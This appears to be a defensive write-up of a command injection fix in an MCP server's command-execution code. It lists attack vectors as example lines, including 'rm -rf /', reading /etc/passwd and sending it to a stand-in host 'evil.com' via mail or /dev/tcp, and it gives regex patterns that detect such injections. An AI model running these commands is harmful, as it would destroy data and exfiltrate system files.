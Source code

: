 # Security Fix: Command Injection Vulnerability in DesktopCommanderMCPServer

## Summary

Fixed a critical command injection vulnerability in the `DesktopCommanderMCPServer` class in `src/mcp/infrastructure_servers.py`. The vulnerability allowed arbitrary command execution through unsanitized user input.

## Vulnerability Details

### Before (Vulnerable Code)
```python
async def _execute_command(self, command: str, ...) -> Dict[str, Any]:
    process = await asyncio.create_subprocess_shell(
        command,  # Direct shell execution with user input
        cwd=work_dir,
        stdout=asyncio.subprocess.PIPE,
        stderr=asyncio.subprocess.PIPE
    )
```

The previous implementation used `create_subprocess_shell()` which executes commands through the system shell, allowing command injection attacks.

### Attack Vectors
- Command chaining: `ls; rm -rf /`
- Command substitution: `echo $(cat /etc/passwd)`
- Pipe injection: `cat file | mail attacker@evil.com`
- Network redirection: `cat /etc/passwd > /dev/tcp/evil.com/80`

## Security Fix Implementation

### 1. Command Whitelisting
Implemented a strict whitelist of allowed commands:
```python
ALLOWED_COMMANDS: Set[str] = {
    # Version control
    "git", "gh",
    # Python tools
    "python", "python3", "pip", "pip3", "pytest", "mypy", "black", "flake8", "ruff",
    # Build tools
    "make", "cmake", "cargo",
    # Container tools
    "docker", "docker-compose", "kubectl", "helm",
    # Safe system utilities
    "ls", "pwd", "echo", "date", "whoami", "hostname", "uname",
    # ... (other safe commands)
}
```

### 2. Input Validation with Injection Pattern Detection
Added comprehensive regex patterns to detect command injection attempts:
```python
INJECTION_PATTERNS = [
    # Command chaining
    re.compile(r'[;&|]{2,}'),
    re.compile(r'(?<!\\)[;&|](?!&)'),
    # Command substitution
    re.compile(r'\$\([^)]+\)'),
    re.compile(r'`[^`]+`'),
    # Network redirection
    re.compile(r'>\s*/dev/(tcp|udp)'),
    # Path traversal
    re.compile(r'\.\.(/|\\){2,}'),
    # Dangerous operations
    re.compile(r'(rm|rmdir|mv|cp)\s+(-rf?|-fr?)\s'),
    # ... (other patterns)
]
```

### 3. Safe Command Execution
Replaced `create_subprocess_shell()` with `create_subprocess_exec()`:
```python
# Parse command safely using shlex
parts = shlex.split(command)

# Execute without shell interpretation
process = await asyncio.create_subprocess_exec(
    *parts,  # Unpack safely parsed arguments
    cwd=work_dir,
    stdout=asyncio.subprocess.PIPE,
    stderr=asyncio.subprocess.PIPE,
    env={**os.environ, "PATH": os.environ.get("PATH", "/usr/local/bin:/usr/bin:/bin")},
    stdin=asyncio.subprocess.DEVNULL  # No stdin access
)
```

### 4. Resource Limits
- **Command length limit**: 4096 characters
- **Output size limit**: 10MB
- **Timeout enforcement**: Maximum 600 seconds (10 minutes)
- **Command history limit**: Last 100 commands

### 5. Additional Security Measures

#### File Operations
- Path validation to prevent directory traversal
- Restrictions on writing to system files
- File size checks before reading

#### Make Command
- Target name validation using regex
- Argument quoting with `shlex.quote()`

## Testing

Created comprehensive test suite (`test_command_validation.py`) that validates:
- Safe commands are allowed
- Command injection attempts are blocked
- Path traversal is prevented
- Unauthorized commands are rejected
- File operations are properly restricted

All 20 test cases pass successfully.

## Impact

This fix prevents:
- Remote code execution
- Privilege escalation
- Data exfiltration
- System compromise
- Fork bombs and resource exhaustion

## Recommendations

1. **Regular Security Audits**: Review command execution patterns regularly
2. **Logging**: Monitor rejected commands for attack attempts
3. **Updates**: Keep the command whitelist updated with only necessary commands
4. **Principle of Least Privilege**: Only allow commands absolutely necessary for operation

## References

- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)
- [Python subprocess security](https://docs.python.org/3/library/subprocess.html#security-considerations)